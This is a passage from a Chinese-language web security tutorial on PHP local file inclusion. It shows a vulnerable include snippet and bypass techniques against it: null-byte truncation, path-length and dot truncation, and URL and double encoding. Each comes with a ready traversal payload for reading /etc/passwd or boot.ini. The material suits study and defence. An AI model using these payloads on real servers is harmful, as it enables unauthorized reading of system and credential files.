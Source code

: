 <?php
    $file = $_GET['file'];
    include '/var/www/html/'.$file.'/test/test.php';
?>
这段代码指定了前缀和后缀：这样就很“难”直接去包含前面提到的种种文件。



1、%00 截断

能利用 00 截断的场景现在应该很少了

PHP 内核是由 C 语言实现的，因此使用了 C 语言中的一些字符串处理函数。在连接字符串时，0 字节 (\x00) 将作为字符串的结束符。所以在这个地方，攻击者只要在最后加入一个 0 字节，就能截断 file 变量之后的字符串。

?file=../../../../../../../../../etc/passwd%00

需要 magic_quotes_gpc=off，PHP 小于 5.3.4 有效



2、%00 截断目录遍历：

?file=../../../../../../../../../var/www/%00

需要 magic_quotes_gpc=off，unix 文件系统，比如 FreeBSD，OpenBSD，NetBSD，Solaris



3、路径长度截断：

?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.

php 版本小于 5.2.8 可以成功，linux 需要文件名长于 4096，windows 需要长于 256

利用操作系统对目录最大长度的限制，可以不需要 0 字节而达到截断的目的。

我们知道目录字符串，在 window 下 256 字节、linux 下 4096 字节时会达到最大值，最大值长度之后的字符将被丢弃。

而利用 "./" 的方式即可构造出超长目录字符串:



4、点号截断：

?file=../../../../../../../../../boot.ini/………[…]…………

php 版本小于 5.2.8 可以成功，只适用 windows，点号需要长于 256



5、编码绕过

服务器端常常会对于 ../ 等做一些过滤，可以用一些编码来进行绕过。下面这些总结来自《白帽子讲 Web 安全》。

利用 url 编码：

../ -》 %2e%2e%2f -》 ..%2f -》 %2e%2e/

..\ -》 %2e%2e%5c -》 ..%5c -》 %2e%2e\

二次编码：

../ -》 %252e%252e%252f

..\ -》 %252e%252e%255c
